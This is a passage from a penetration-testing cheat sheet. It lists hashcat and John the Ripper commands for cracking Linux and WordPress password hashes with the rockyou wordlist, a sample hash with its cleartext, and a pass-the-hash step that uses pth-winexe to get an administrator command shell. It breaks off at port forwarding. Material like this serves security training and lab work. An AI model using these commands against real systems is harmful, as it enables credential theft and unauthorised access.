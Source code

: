    Hashcat example cracking Linux md5crypt passwords $1$ using rockyou:
   
   `hashcat --force -m 500 -a 0 -o found1.txt --remove puthasheshere.hash /usr/share/wordlists/rockyou.txt`
   
   Wordpress sample hash: $P$B55D6LjfHDkINU5wF.v2BuuzO0/XPk/
   
   Wordpress clear text: test
   
   Hashcat example cracking Wordpress passwords using rockyou:
   
  `hashcat --force -m 400 -a 0 -o found1.txt --remove wphash.hash /usr/share/wordlists/rockyou.txt`

    -   Sample Hashes  
        [*http://openwall.info/wiki/john/sample-hashes*](http://openwall.info/wiki/john/sample-hashes)

    -   Identify Hashes  
        hash-identifier

    -   Crask linux hashes you must first unshadow them:  
        unshadow passwd-file.txt shadow-file.txt  
        unshadow passwd-file.txt shadow-file.txt > unshadowed.txt

-   John the Ripper - Password Hash Cracking

    -   john $ip.pwdump

    -   john --wordlist=/usr/share/wordlists/rockyou.txt hashes

    -   john --rules --wordlist=/usr/share/wordlists/rockyou.txt

    -   john --rules --wordlist=/usr/share/wordlists/rockyou.txt
        unshadowed.txt

    -   JTR forced descrypt cracking with wordlist  
        john --format=descrypt --wordlist  
        /usr/share/wordlists/rockyou.txt hash.txt

    -   JTR forced descrypt brute force cracking  
        john --format=descrypt hash --show

-   Passing the Hash in Windows

    -   Use Metasploit to exploit one of the SMB servers in the labs.
        Dump the password hashes and attempt a pass-the-hash attack
        against another system:  
          
        export
        SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896  
          
        pth-winexe -U administrator //$ip cmd

<span id="_6nmbgmpltwon" class="anchor"><span id="_Toc480741823" class="anchor"></span></span>Networking, Pivoting and Tunneling
================================================================================================================================

-   Port Forwarding - accept traffic on a given IP address and port and
    redirect it to a different IP address and port

    -   apt-get install rinetd
